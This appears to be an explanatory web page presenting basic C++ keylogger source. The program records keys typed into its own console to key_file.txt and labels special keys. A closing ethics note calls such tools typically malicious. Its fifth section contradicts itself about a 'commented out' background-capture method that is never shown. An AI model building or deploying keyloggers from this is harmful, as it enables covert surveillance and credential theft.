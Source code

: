 **Keylogger Example Code in C++**
This code is a basic example of a keylogger that captures keystrokes and logs them into a text file. Here's a step-by-step explanation of what the code does:

1. Libraries Used:
windows.h: Provides access to Windows API functions (e.g., handling windows, processes, etc.).
iostream: For input and output operations, specifically to print to the console.
fstream: For file input and output (used to write captured keys to a file).
conio.h: Used for console input/output, specifically for functions like getch() to capture keypresses.
2. Function to Log Keys:
The function keys() is responsible for capturing and logging keystrokes into a file.

cpp
Copy code
int keys(char key, fstream& file) {
  file.open("key_file.txt", ios::app | ios::in | ios::out);
  if (file) {
    // Check if a special key was pressed
    if (GetAsyncKeyState(VK_SHIFT)) {
      file << "[SHIFT]";
    }
    else if (GetAsyncKeyState(VK_ESCAPE)) {
      file << "[ESCAPE]";
    }
    else if (GetAsyncKeyState(VK_RETURN)) {
      file << "[ENTER]";
    }
    else if (GetAsyncKeyState(VK_CONTROL)) {
      file << "[CONTROL]";
    }
    else if (GetAsyncKeyState(VK_MENU)) {
      file << "[ALT]";
    }
    else if (GetAsyncKeyState(VK_DELETE)) {
      file << "[DELETE]";
    }
    else if (GetAsyncKeyState(VK_TAB)) {
      file << "[TAB]";
    }
    else if (GetAsyncKeyState(VK_BACK)) {
      file << "[BACKSPACE]";
    }
    else {
      file << key; // Regular key
    }
  }
  file.close();
  return 0;
}
This function checks if any special key (like Shift, Ctrl, Alt, Enter, etc.) is pressed. If a special key is pressed, it logs the name of that key in the file. Otherwise, it logs the regular character of the key.

3. Main Function:
The main function sets up an infinite loop to capture keystrokes.

cpp
Copy code
int main() {
  char key_press;
  int ascii_value;
  fstream afile;

  afile.open("key_file.txt", ios::in | ios::out);
  afile.close();

  while (true) {
    key_press = getch();  // Capture key press
    ascii_value = key_press;
    cout << "Key pressed: " << key_press << endl;  // Print pressed key
    if (ascii_value > 7 && ascii_value < 256) {
      keys(key_press, afile);  // Log key to file
    }
  }
  return 0;
}
getch(): Captures each keystroke from the user in real-time.
keys(): Calls the keys() function to log the captured key to a file named key_file.txt.
4. Key Points:
The code uses getch() to capture keys one by one.
It logs the keys to a file (key_file.txt).
Special keys like Shift, Enter, Tab, etc., are identified and logged as [SHIFT], [ENTER], etc.
5. Alternative Approach (Uncommented Block):
Another way to capture keystrokes in the background (without showing a console window) is to use GetAsyncKeyState(), which checks the state of each key asynchronously. The code for this method is provided but commented out in the example.

Important Notes:
Ethical Considerations: This type of program is typically used for malicious purposes like keylogging, and writing or using such software without the explicit consent of the user is illegal and unethical.



